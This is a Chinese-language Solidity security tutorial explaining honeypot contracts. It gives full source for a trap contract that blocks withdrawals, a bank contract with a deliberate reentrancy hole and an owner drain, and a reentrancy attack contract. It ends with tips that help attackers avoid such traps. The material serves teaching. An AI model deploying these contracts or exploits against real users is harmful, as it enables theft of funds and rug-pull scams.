


# WTF Solidity 合约安全: S16. 蜜罐合约

我最近在重新学solidity，巩固一下细节，也写一个“WTF Solidity极简入门”，供小白们使用（编程大佬可以另找教程），每周更新1-3讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.wtf.academy)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在github: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

-----

这一讲，我们将介绍蜜罐合约和预防方法。

## 什么是蜜罐合约

正所谓高端的猎人往往以猎物的形式出现，蜜罐合约本质上是一种欺骗黑客的合约。猎人故意暴露出明显又低级的合约漏洞，引诱黑客对合约进行攻击。如果黑客未识破猎人的骗局，傻傻地攻击了合约，那么就会掉入猎人布好的陷阱。因此我们也可以把蜜罐合约叫做陷阱合约。

由于蜜罐合约的招数层出不穷，在此笔者就只展示一种表面上看上去存在重入攻击漏洞，实际上只进不出的貔貅盘蜜罐合约。

## 0xAA 第二次抢银行的故事

为了让大家更好理解，我们来看一下这种蜜罐合约是怎么运行的：

一天黑客 `0xAA` 又来到了银行，这是他和机器人柜员的对话：
- 0xAA : 我要存钱，`1 ETH`。
- Robot: 存款业务办理完毕，您的余额：`1 ETH`。
- 0xAA : 我要取钱，`1 ETH`。
- Robot: 正在查询您的余额：`1 ETH`。正在转帐`1 ETH`到您的账户。您收到钱了吗？
- 0xAA : 等等，我要取钱，`1 ETH`。
- Robot: 正在查询您的余额：`1 ETH`。正在转帐`1 ETH`到您的账户。您收到钱了吗？
- 0xAA : 等等，我要取钱，`1 ETH`。
- ...
- Robot: 正在查询您的余额：`1 ETH`。正在转帐`1 ETH`到您的账户。您收到钱了吗？
- 0xAA : 收到了，我可以走了吗？（此时银行的资产已被搬空）
- Robot: 等等，这笔交易回滚了，退款业务办理失败，您的余额：`1 ETH`。（此时银行的资产在原来的基础上增加了1ETH）

## 蜜罐合约例子

### 蜜罐合约

我们先看蜜罐合约，捕捉猎物的陷阱就包含在它里面。它非常简单，只包含了`2`个函数：

- `log()`: 当用户执行退款操作时强制回滚交易，取名为`log`同时有三个参数是为了迷惑用户。
- `equal()`: 该函数的作用是用keccak256来比较字符串，会在`log()`函数中使用。注意字符串要先转化为bytes类型，否则无法被keccak256哈希化。

同时猎人为了将自己伪装成猎物，会将这段合约代码放在一个单独的文件中，使得其他人无法读取它。

```solidity
//这段合约代码位于一个单独的文件中，使得其他人无法读取它
contract HoneyPot {
    function log(
        address _caller,
        uint _amount,
        string memory _action
    ) public pure {
        //如果用户执行退款操作，强制回滚
        if (equal(_action, "Withdraw")) {
            revert("Your money is mine");
        }
    }

    // 用keccak256比较字符串
    function equal(string memory _a, string memory _b) public pure returns (bool) {
        return keccak256(abi.encode(_a)) == keccak256(abi.encode(_b));
    }
}
```

### 银行合约

然后是银行合约，它与[WTF Solidity合约安全: S01. 重入攻击](https://github.com/AmazingAng/WTF-Solidity/blob/main/S01_ReentrancyAttack/readme.md)这一讲中的银行合约基本类似，如果你不了解可以先回去阅读。

由于这是貔貅盘，所以银行合约中`deposit()`和`withdraw`函数的最后分别要加上`logger.log(msg.sender, msg.value, "Deposit")`和`logger.log(msg.sender, _amount, "Withdraw")`，它们的作用是让用户误以为只是触发存款和取款的日志，实际的功能是在存款时一切正常，而取款时会强制回滚交易，使得合约只进不出。

同时我们又写了一个只允许受益人取走合约内所有余额的`ownerWithdraw()`函数，为最后的`Rug`埋下伏笔。

**注意**：在部署银行合约时，需要先部署蜜罐合约，再将蜜罐合约的地址作为参数传入构造函数，而不是日志器合约。

```solidity
contract Bank {
    //受益人地址
    address public owner;
    //记录用户存款余额
    mapping(address => uint) public balances;
    //日志器合约（实际上是蜜罐合约）
    Logger logger;

    constructor(Logger _logger) {
        //获取蜜罐合约
        logger = Logger(_logger);
        //将owner赋值为部署合约地址
        owner = msg.sender;
    }

    function deposit() public payable {
        //记录余额变化
        balances[msg.sender] += msg.value;
        //调用蜜罐合约的log方法，此处不会revert交易，用户正常存款
        logger.log(msg.sender, msg.value, "Deposit");
    }

    function withdraw(uint _amount) public {
        //检验退款金额是否<=余额
        require(_amount <= balances[msg.sender], "Insufficient funds");
        //给msg.sender退款，此处可以被重入攻击
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");
        //记录余额变化
        balances[msg.sender] -= _amount;
        //调用蜜罐合约的log方法，此处会revert交易，导致交易回滚，用户无法退款
        logger.log(msg.sender, _amount, "Withdraw");
    }
    //受益人可用此函数取走合约内所有余额
    function ownerWithdraw() public {
        //检验msg.sender是否为受益者地址
        require(owner == msg.sender, "Not owner");
        //如果是就转移全部余额
        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
    // 获取银行合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

### 日志器合约

日志器合约只是写给用户看的，它甚至都不需要部署。

它包含了`1`个事件和`1`个函数:

- 事件`log`: 用来记录调用者、转账数额以及执行的操作类型。
- 函数`log`: 获取事件需要的参数并触发事件。

```solidity
contract Logger {
    event Log(address caller, uint amount, string action);
    function log(
        address _caller,
        uint _amount,
        string memory _action
    ) public {
        emit Log(_caller, _amount, _action);
    }
}
```

### 攻击合约

最后是攻击合约，它也与[WTF Solidity合约安全: S01. 重入攻击](https://github.com/AmazingAng/WTF-Solidity/blob/main/S01_ReentrancyAttack/readme.md)这一讲中的攻击合约类似，如果你不了解可以先回去阅读。

这里需要注意的是：存款攻击和退款攻击要分别在两个函数内写，否则交易会直接回滚到存款之前的状态。

```solidity
contract Attack {
    Bank public  bank;

    constructor(Bank _bank) {
        //获取要攻击的银行合约
        bank = Bank(_bank);
    }

    fallback() external payable {
        //进行重入攻击
        if (address(bank).balance >= 1 ether) {
            bank.withdraw(1 ether);
        }
    }
    receive() external payable{}
    //存款攻击和退款攻击要分别在两个函数内写，否则交易会直接回滚到存款之前的状态
    function attackDeposit() public payable {
        bank.deposit{value: 1 ether}();
    }
    function attackWithdraw() public payable {
        bank.withdraw(1 ether);
    }
}
```

## `Remix` 复现

**1.** 部署 `HoneyPot` 合约。


**2.** 复制并粘贴`HoneyPot`合约地址，部署`Bank`合约，受益人地址 `owner` 被初始化为部署合约地址。


**3.** 切换到即将掉入陷阱的黑客地址，将`value`设置为1ETH，并调用`Bank`合约的`deposit()`函数，成功存入1ETH。


**4.** 保持黑客地址不变，调用`Bank`合约的`withdraw()`函数（参数为1ETH），交易被`revert`同时还被嘲讽。


**5.** 保持黑客地址不变，调用`Bank`合约的`ownerWithdraw()`函数，交易同样被`revert`，原因为`Not owner`。



**6.** 切换回受益人地址`owner`，调用`Bank`合约的`ownerWithdraw()`函数，交易成功同时银行合约内的全部余额都被转移到受益人地址。



## 预防办法

由于蜜罐合约的招数层出不穷，防不胜防，因此并没有一个通用的方法可以预防所有的蜜罐合约。

身处黑暗森林中，唯一能做的就是小心再小心，仔细分析合约源代码。即使发现了明显的漏洞也要留一分警惕，有可能是合约部署者故意露出的破绽。

而针对于本讲的案例，预防方法隐藏在字里行间、呼之欲出。如果黑客要尝试重入攻击，就要将存款攻击和退款攻击写在同一个函数中，那么即使退款攻击失败，交易被强制回滚，也会被回滚到存款前的状态，黑客自己的钱不会损失。

## 总结

这一讲，我们介绍了蜜罐合约。它看上去是猎物，实际上是给黑客准备的陷阱。同时我们讲解了一种表面上看上去存在重入攻击漏洞，实际上只进不出的貔貅盘蜜罐合约。针对这种类型的蜜罐合约我们可以将存款攻击和取款攻击写在同一个函数中，这样即使重入攻击失败，我们的钱也不会损失。